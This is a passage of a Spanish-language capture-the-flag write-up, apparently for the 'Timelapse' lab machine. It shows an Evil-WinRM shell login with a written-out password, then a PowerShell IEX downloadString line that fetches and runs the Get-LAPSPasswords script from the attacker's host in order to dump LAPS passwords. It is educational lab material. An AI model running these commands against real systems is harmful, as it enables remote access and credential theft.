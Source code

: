 - Ahora nos podemos conectar. 

```bash
❯ evil-winrm -S -i 10.129.141.32 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami
timelapse\svc_deploy
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> 
```

## Escalada de privilegios and Shell as administrator 

- Como formamos parte del grupo `LAPS_Readers` vamos a usar este recurso <https://github.com/kfosaaen/Get-LAPSPasswords> para ver si podemos dumpear todas las contraseñas almacenadas.

```bash
❯ wget https://raw.githubusercontent.com/kfosaaen/Get-LAPSPasswords/master/Get-LAPSPasswords.ps1
--2023-07-26 13:59:10--  https://raw.githubusercontent.com/kfosaaen/Get-LAPSPasswords/master/Get-LAPSPasswords.ps1
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)[185.199.108.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 7419 (7.2K) [text/plain]
Grabando a: «Get-LAPSPasswords.ps1»

Get-LAPSPasswords.ps1           100%[=======================================================>]   7.25K  --.-KB/s    en 0s      

2023-07-26 13:59:10 (34.4 MB/s) - «Get-LAPSPasswords.ps1» guardado [7419/7419]
```

- Ahora ejecutamos un servidor **http** con **Python3** para poder traernos el **script**.

```bash
❯ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

- Ahora lo descargamos.

```bash
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8:8080/Get-LAPSPass
words.ps1')
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> 
```
